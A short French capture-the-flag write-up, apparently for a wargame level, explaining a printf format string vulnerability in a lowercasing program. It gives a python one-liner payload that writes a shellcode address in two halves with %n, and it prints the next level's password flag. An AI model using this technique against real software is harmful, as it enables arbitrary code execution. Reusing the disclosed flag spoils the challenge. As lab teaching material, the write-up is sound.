 ## GET Flag

Ce programme va passer le texte entré par l'utilisateur en minuscule, puis l'imprimer avec printf.
Il est donc possible d'utiliser un format string exploit.

Cependant, imprimer l'équivalent de l'adresse du shellcode en nombre d'espace est bien trop couteux.
Il est donc nécessaire de changer cette adresse en deux temps.

```
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55428x" + "%10$n" + "%10099x" + "%11$n"' > /tmp/level05
```

### Flag

```
level06
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
